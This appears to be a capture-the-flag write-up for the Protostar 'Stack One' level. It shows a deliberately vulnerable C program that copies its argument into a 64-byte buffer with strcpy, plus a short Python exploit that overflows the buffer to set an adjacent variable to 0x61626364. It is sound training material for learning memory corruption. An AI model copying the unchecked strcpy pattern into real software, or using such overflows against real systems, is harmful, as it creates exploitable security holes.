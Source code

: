 # Stack One

## Description

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
* If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
* Protostar is little endian

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Exploit script

```python
from os import system

payload  = "A"*64
payload += "\x64\x63\x62\x61"
system("./stack1 " + payload)
```

Level passed!

<p align="center">
    <img src="./done.png">
</p>